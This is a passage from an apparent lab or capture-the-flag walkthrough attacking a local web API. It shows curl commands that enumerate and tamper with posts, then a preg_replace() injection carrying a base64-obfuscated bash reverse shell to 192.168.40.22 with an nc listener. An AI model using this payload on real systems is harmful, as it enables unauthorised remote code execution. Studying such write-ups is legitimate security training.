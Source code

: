 ### Post Enumeration

```bash
curl -s -X GET "http://192.168.40.39:5000/ls2o4g/v1.0/posts/"
```

### Content Modification Test

```bash
curl -s -X PATCH "http://192.168.40.39:5000/ls2o4g/v1.0/posts/1" \
  -H "Content-Type: application/json" \
  -b "token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..." \
  -d '{"text":"prueba"}'
```

![Content Modified](images/Pasted%20image%2020251012003954.png)

**Success**: Content modification confirmed.

## Remote Code Execution

### Reverse Shell Payload

Exploiting the `preg_replace()` vulnerability:

```bash
curl -s -X PATCH "http://192.168.40.39:5000/ls2o4g/v1.0/posts/1" \
  -H "Content-Type: application/json" \
  -b "token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..." \
  -d $'{"text":"system(base64_decode(\'YmFzaCAtYyAnZXhlYyBiYXNoIC1pICY+L2Rldi90Y3AvMTkyLjE2OC40MC4yMi80NDMgPCYxJw==\'))"}'
```

**Listener**:

```bash
sudo nc -nlvp 443
```

**Result**: Reverse shell obtained as `www-data`.

## Lateral Movement

### User Escalation
